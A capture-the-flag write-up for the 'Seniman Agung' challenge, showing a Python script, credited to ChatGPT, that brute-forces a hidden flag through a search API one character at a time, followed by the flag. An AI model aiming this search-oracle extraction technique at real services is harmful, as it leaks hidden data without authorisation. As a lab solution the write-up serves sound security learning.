




# Seniman Agung

> Category: Miscellaneous🧩



## 🔍 Overview



When going to the page, we can try to search for the flag:



But, this will return us with 1 correct hidden flag and 2 fake flags.

So, the plan here is to brute-force the correct flag:




## ✨ Solution

To solve this question, we need to create a script to ease up the process. I also found that the challenge is a bit same as the [L3AKCTF 2025 Flag L3ak challenge](https://xtromera.github.io/2025/07/14/l3ak.html). So, just copy the script and refine it a bit.

**Solve script (by ChatGPT):**
```py
import string, requests, time

URL = "http://<CHALL-IP>:<CHALL-PORT>/api/search"
FLAG_PREFIX = "3108{B"                     # start from what you already know
CHARSET = string.ascii_letters + string.digits + "_-{}"
SLEEP = 0.12                               # gentle pacing

def hit(q: str) -> bool:
    r = requests.post(URL, json={"query": q}, timeout=8)
    # Try JSON first (if the API returns JSON)
    try:
        data = r.json()
        results = data.get("results", data.get("posts", [])) or []
        for post in results:
            title = (post.get("title") or "").lower()
            content = (post.get("content") or "").lower()
            if ("ada rahsia di sini" in content) or ("flag" in content) or ("petunjuk" in title):
                return True
    except Exception:
        pass
    # Fallback to text marker you observed
    return "Well luckily the content of the flag is hidden so here it is:" in r.text

def window4(known: str, c: str) -> str:
    # Use the last 3 known chars + candidate to form a 4-char query
    core = (known[-3:] if len(known) >= 3 else known)
    w = core + c
    return w[-4:] if len(w) > 4 else w.rjust(4, FLAG_PREFIX[0]) if len(w) < 4 else w

def main():
    known = FLAG_PREFIX
    print(f"[start] prefix = {known}")

    while not known.endswith("}"):
        progressed = False
        for c in CHARSET:
            q = window4(known, c)
            if len(q) == 4 and hit(q):
                pos = len(known) + 1
                known += c
                print(f"[pos {pos}] → {c}   (query: {q})")
                progressed = True
                break
            time.sleep(SLEEP)

        if not progressed:
            print("[stop] no match this round.")
            break

    print(f"\n[flag] {known}")

if __name__ == "__main__":
    main()
```

<details><summary><b>🏳️ Flag:</b></summary><b>3108{Buj4ngL4p0k_M3rd3k4}</b></details>